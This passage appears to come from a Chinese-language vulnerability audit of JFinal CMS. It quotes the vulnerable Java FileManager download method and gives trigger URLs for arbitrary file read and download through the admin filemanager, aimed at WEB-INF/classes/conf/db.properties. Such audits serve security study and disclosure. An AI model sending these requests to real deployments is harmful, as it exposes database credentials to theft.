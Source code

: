 ```http
http://localhost:8081/jfinal_cms/admin/filemanager?mode=editfile&path=/jfinal_cms/login.html&config=filemanager.config.js&time=314
```

触发：

```http
http://localhost:8081/jfinal_cms/admin/filemanager?mode=editfile&path=/web-inf/classes/conf/db.properties&config=filemanager.config.js&time=314
```

<img src=".\图片\Snipaste_2023-10-26_15-36-25.png" alt="Snipaste_2023-10-26_15-36-25" style="zoom:80%;" />

# 任意文件下载

与任意文件读取类似，漏洞代码在 `src/main/java/com/jflyfox/modules/filemanager/FileManager.java`

```java
public void download(HttpServletResponse resp) {
        File file = new File(getRealFilePath());
        if (this.get.get("path") != null && file.exists()) {
            resp.setHeader("Content-type", "application/force-download");
            resp.setHeader("Content-Disposition", "inline;filename=\"" + fileRoot + this.get.get("path") + "\"");
            resp.setHeader("Content-Transfer-Encoding", "Binary");
            resp.setHeader("Content-length", "" + file.length());
            resp.setHeader("Content-Type", "application/octet-stream");
            resp.setHeader("Content-Disposition", "attachment; filename=\"" + file.getName() + "\"");
            readFile(resp, file);
        } else {
            this.error(sprintf(lang("FILE_DOES_NOT_EXIST"), this.get.get("path")));
        }
    }
```

触发

```http
http://localhost:8081/jfinal_cms/admin/filemanager?mode=download&path=/web-inf/classes/conf/db.properties&config=filemanager.config.js&time=314
```

# SSTI模板注⼊
